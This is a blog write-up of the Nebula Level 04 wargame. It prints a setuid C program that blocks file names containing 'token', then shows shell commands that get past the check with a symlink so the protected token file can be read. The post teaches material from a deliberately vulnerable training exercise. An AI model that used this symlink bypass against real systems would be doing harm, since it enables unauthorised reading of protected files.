 ```yaml
---
title: "Exploit Exercises - Nebula Level 04"
date: 2014-01-10 20:43:48+08:00
categories: 
- Security
- Exercises
- Nebula
---
```


### About

This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04 . Files for this level can be found in /home/flag04.

<!-- more -->

### Solution

Source code for /home/flag04/flag04 is 

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
    printf("%s [file to read]\n", argv[0]);
    exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
    printf("You may not access '%s'\n", argv[1]);
    exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
    err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
    err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

This one is easy, just creating a soft link in the home directory of user *level04*, and making it readable for user *flag03* could bypass the check of the above code, of cause the name of the sofe link could not be *token* :-P.

``` bash
$ ln -s /home/flag04/token /home/level04/aa
$ chmod a+rx /home/level04
$ /home/flag04/flag04 /home/level04/aa
```

<!-- 06508b5e-8909-4f38-b630-fdb148a848a2 -->

And it works!

